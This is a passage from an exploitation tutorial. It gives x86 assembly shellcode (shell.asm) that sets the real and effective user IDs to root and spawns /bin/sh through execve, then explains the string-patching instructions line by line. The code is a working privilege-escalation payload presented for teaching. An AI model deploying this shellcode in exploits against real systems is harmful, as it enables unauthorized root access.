There’s no need for an exit() function call, because an interactive program is being spawned. An exit() function wouldn’t hurt, but it has been left out of this example, because ultimately the goal is to make this code as small as possible.

shell.asm
```
section .data    ; section declaration

filepath    db   "/bin/shXAAAABBBB"       ; the string

section .text    ; section declaration

global _start ; Default entry point for ELF linking

_start:

; setreuid(uid_t ruid, uid_t euid)

 mov eax, 70       ; put 70 into eax, since setreuid is syscall #70
 mov ebx, 0        ; put 0 into ebx, to set real uid to root
 mov ecx, 0        ; put 0 into ecx, to set effective uid to root
 int 0x80          ; Call the kernel to make the system call happen

; execve(const char *filename, char *const argv [], char *const envp[])

 mov eax, 0        ; put 0 into eax
 mov ebx, filepath ; put the address of the string into ebx
 mov [ebx+7], al   ; put the 0 from eax where the X is in the string
                   ; ( 7 bytes offset from the beginning)
 mov [ebx+8], ebx  ; put the address of the string from ebx where the
                   ; AAAA is in the string ( 8 bytes offset)
 mov [ebx+12], eax ; put the a NULL address (4 bytes of 0) where the
                   ; BBBB is in the string ( 12 bytes offset)
 mov eax, 11       ; Now put 11 into eax, since execve is syscall #11
 lea ecx, [ebx+8]  ; Load the address of where the AAAA was in the
                   ; string into ecx
 lea edx, [ebx+12] ; Load the address of where the BBBB is in the
                   ; string into edx
 int 0x80          ; Call the kernel to make the system call happen
```

This code is a little bit more complex than the previous example. The first set of instructions that should look new are these:

```csharp
mov [ebx+7], al    ; put the 0 from eax where the X is in the string
                   ; ( 7 bytes offset from the beginning)
mov [ebx+8], ebx   ; put the address of the string from ebx where the
                   ; AAAA is in the string ( 8 bytes offset)
mov [ebx+12], eax  ; put the a NULL address (4 bytes of 0) where the
                   ; BBBB is in the string ( 12 bytes offset)
```

